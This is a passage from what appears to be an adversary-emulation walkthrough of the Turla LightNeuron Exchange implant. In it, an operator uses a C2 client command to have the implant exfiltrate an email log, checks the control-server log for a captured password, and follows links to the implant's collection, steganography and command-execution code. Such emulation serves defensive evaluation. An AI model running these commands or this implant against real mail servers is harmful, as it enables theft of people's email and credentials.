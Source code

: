 * Send the email

:arrow_right: Return to the Kali C2 server lower terminal window. Task the LightNeuron implant to exfiltrate the email log file:
```bash
./evalsC2client.py --set-task info@nk.local '3 | 0'
```

* The file contents will be logged by the control server.
:heavy_exclamation_mark: Verify that exfil was logged by the control server by checking the terminal window with the server output or by checking the server log file. The logs should contain the password Egle sent to Zilvinas:
```bash
grep 'dfsbH%T5RWf3bwq3aeGR$3%' /opt/day2/turla/Resources/control_server/logs.txt
```

### :moyai: Source Code
* [Transport Agent](../../Resources/LightNeuron/TransportAgent/Microsoft.Exchange.Transport.Agent.ConnectionFiltering/ConnectionFilteringAgent.cs)
  * [Remote Email Collection](../../Resources/LightNeuron/TransportAgent/Microsoft.Exchange.Transport.Agent.ConnectionFiltering/ConnectionFilteringAgent.cs#L56)
  * [Automated Collection](../../Resources/LightNeuron/TransportAgent/Microsoft.Exchange.Transport.Agent.ConnectionFiltering/ConnectionFilteringAgent.cs#L100)
  * [Email Hiding Rules](../../Resources/LightNeuron/TransportAgent/Microsoft.Exchange.Transport.Agent.ConnectionFiltering/ConnectionFilteringAgent.cs#L162)
* [Companion DLL](../../Resources/LightNeuron/CompanionDLL/)
  * [Check message against rule file](../../Resources/LightNeuron/CompanionDLL/src/exdbdata.cpp#L307)
  * [Data Staging/Automated Collection](../../Resources/LightNeuron/CompanionDLL/src/exdbdata.cpp#L196)
  * [Analyze attachment for data from C2](../../Resources/LightNeuron/CompanionDLL/src/exdbdata.cpp#L98)
  * [Send message back to C2 server over email](../../Resources/LightNeuron/CompanionDLL/src/exdbdata.cpp#L130)
* [Steganography](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp)
  * [Decode attachment data from base64](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp#L437)
  * [Check signature in image](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp#L136)
  * [Decrypt data in image](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp#L99)
  * [Extract task from image](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp#L302)
  * [Execute commands: Cmd ID 3](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp#L232)
  * [Execute commands: Cmd ID 5](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp#L263)
  * [Encrypt result of command in image](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp#L51)
  * [Hide result of command in image](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp#L184)
  * [Encode data in base64](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp#L499)

### :microscope: Cited Intelligence

* <https://www.welivesecurity.com/wp-content/uploads/2019/05/ESET-LightNeuron.pdf>
